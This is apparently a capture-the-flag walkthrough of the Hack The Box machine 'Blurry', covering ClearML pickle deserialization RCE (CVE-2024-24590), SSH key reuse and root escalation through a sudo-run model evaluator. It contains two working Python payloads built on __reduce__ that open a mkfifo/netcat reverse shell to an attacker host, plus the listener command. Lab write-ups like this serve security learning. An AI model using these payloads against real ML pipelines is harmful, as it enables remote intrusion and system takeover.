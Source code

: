 🔍 HTB: Blurry — Full Walkthrough (Hard)
🧠 Overview

In this write-up, we dive into HTB: Blurry, a machine rated as Hard, where we chain together multiple misconfigurations and vulnerabilities to achieve full root access. Here’s a quick summary:

    Gained initial foothold via ClearML Pickle Deserialization RCE (CVE-2024–24590)

    Escalated to persistent access by retrieving the user’s OpenSSH private key

    Privilege escalation to root through evaluate_model binary abusing PyTorch deserialization

Let’s break it all down step-by-step.
🔎 Recon

Started with an Nmap scan:

nmap -sC -sV <TARGET-IP> -v

Port 80 was open and redirected to:
http://app.blurry.htb

Added to /etc/hosts:

<TARGET-IP> app.blurry.htb

Accessing the web app with a random username (e.g. admin) automatically dropped us into a dashboard — no authentication required.
⚔️ Initial Access – CVE-2024-24590 (ClearML RCE)

The dashboard hinted at a GitHub repo (now removed), but the PoC exploit was recoverable and used the ClearML platform's deserialization logic to trigger an RCE.

Exploit (exploit.py):

from clearml import Task
import pickle, os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER-IP> 4444 >/tmp/f',))

command = RunCommand()
task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"])
task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")

⚙️ Setup Steps

    Installed clearml via pip:

pip install clearml

Added to /etc/hosts:

    <TARGET-IP> api.blurry.htb

    Ran clearml-init and used credentials from “Getting Started > Create New Credentials”.

    Executed the exploit and got a reverse shell as jippity.

🗝️ Post-Exploitation: Persistent SSH Access

Dumped and saved the OpenSSH private key for jippity, allowing persistent access:

chmod 600 id_rsa
ssh -i id_rsa jippity@<TARGET-IP>

🧬 Privilege Escalation – PyTorch .pth Injection

Discovered jippity could execute the following as root via sudo:

/usr/bin/evaluate_model <.pth file>  (in /models/)

Also, the /models/ directory was group-writable by jippity.
🔥 Root Shell via Malicious PyTorch File

We crafted a malicious .pth file using PyTorch that leverages the __reduce__() method to spawn a reverse shell as root.

Payload:

import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)

    def forward(self, x):
        return self.dense(x)

    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER-IP> 9001 >/tmp/f"
        return os.system, (cmd,)

malicious_model = MaliciousModel()
torch.save(malicious_model, 'exploit.pth')

    Uploaded exploit.pth to /models/ on the target.

    Started a listener:

nc -lvnp 9001

Ran:

    sudo /usr/bin/evaluate_model /models/exploit.pth

🚀 Root shell obtained.
📜 Flags

    user.txt ✔️

    root.txt ✔️

🧠 Final Thoughts

Blurry showcases a dangerous combo:

    Deserialization in machine learning pipelines (ClearML)

    Insecure sudo rules

    Improper directory permissions

Stay sharp, patch fast, and always audit deserialization surfaces.
